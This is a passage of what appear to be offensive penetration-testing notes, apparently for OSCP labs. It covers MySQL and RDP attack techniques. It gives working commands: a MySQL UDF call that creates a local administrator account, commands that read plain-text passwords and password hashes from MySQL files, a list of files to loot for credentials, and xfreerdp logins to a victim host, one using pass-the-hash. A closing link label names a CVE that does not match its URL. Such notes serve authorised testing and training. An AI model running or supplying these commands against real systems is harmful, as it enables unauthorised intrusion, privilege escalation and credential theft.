 ```sql
create function sys_exec returns integer soname 'lib_mysqludf_sys_32.dll';
select sys_exec("net user derp Herpderp1! /add");
select sys_exec("net localgroup administrators derp /add");
```


### 2.17.2 Grabbing MySQL Passwords

```sh
# contains plain-text password of the user debian-sys-maint
cat /etc/mysql/debian.cnf

# contains all the hashes of the MySQL users (same as what's in mysql.user table)
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```


### 2.17.3 Useful MySQL Files

- Configuration Files:
  - Windows
    - config.ini
    - my.ini
    - windows\my.ini
    - winnt\my.ini
    - INSTALL_DIR/mysql/data/
  - Unix
    - my.cnf
    - /etc/my.cnf
    - /etc/mysql/my.cnf
    - /var/lib/mysql/my.cnf
    - ~/.my.cnf
    - /etc/my.cnf
- Command History:
  - ~/.mysql.history
- Log Files:
  - connections.log
  - update.log
  - common.log


## 2.18 RDP - 3389

**Connect to Windows RDP**:

```sh
xfreerdp /d:domain /u:username /p:password +clipboard /cert:ignore /size:960x680 /v:$VICTIM_IP
# to attach a drive, use:
# /drive:share,/mnt/vm-share/oscp/labs/public/5-alice/loot

# using pass-the-hash to connect:
# replace /p: with /pth:NTHASH
xfreerdp /u:Administrator /d:SVCORP /pth:63485d30576a1a741106e3e800053b34 /v:$VICTIM_IP
```


[cve-2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744